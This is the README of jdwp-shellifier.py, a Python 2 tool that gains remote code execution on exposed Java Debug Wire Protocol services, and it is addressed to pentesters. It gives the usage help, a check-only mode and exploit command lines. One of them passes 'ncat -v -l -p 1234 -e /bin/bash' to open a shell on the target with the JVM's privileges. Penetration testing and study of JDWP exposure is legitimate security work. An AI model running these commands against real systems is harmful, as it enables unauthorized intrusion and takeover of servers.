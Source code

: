 # JDWP exploitation script

## What is it ?
This exploitation script is meant to be used by pentesters against active JDWP service, in order to gain Remote Code Execution.

## How does it work ?
Well, in a pretty standard way, the script only requires a Python 2 interpreter:

	% python ./jdwp-shellifier.py -h
	usage: jdwp-shellifier.py [-h] [-check] -t IP [-p PORT] [--break-on JAVA_METHOD]
                          [--cmd COMMAND]

    Universal exploitation script for JDWP by @_hugsy_

    optional arguments:
    -h, --help            show this help message and exit
    -check                Check for vulnerability (default: False)
    -t IP, --target IP    Remote target IP (default: None)
    -p PORT, --port PORT  Remote target port (default: 8000)
    --break-on JAVA_METHOD
                        Specify full path to method to break on, if does not work, try:
                        java.net.ServerSocket.accept (default: java.lang.String.indexOf)
    --cmd COMMAND         Specify command to execute remotely (default: None)

To check a specific host/port without exploitation:
    $ python ./jdwp-shellifier.py -t my.target.ip -p 1234 -check

To target a specific host/port:

	$ python ./jdwp-shellifier.py -t my.target.ip -p 1234
	
This command will only inject Java code on the JVM and show some info like Operating System, Java version. Since it does not execute external code/binary, it is totally safe and can be used as Proof-Of-Concept

	$ python ./jdwp-shellifier.py -t my.target.ip -p 1234 --cmd "ncat -v -l -p 1234 -e /bin/bash"
	
This command will actually execute the process `ncat` with the specified argument with the rights given to the running JVM.

Before sending questions, make sure to read http://blog.ioactive.com/2014/04/hacking-java-debug-wire-protocol-or-how.html for full understanding of the JDWP protocol. 

## Thanks
* Ilja Van Sprundel
* Sebastien Macke





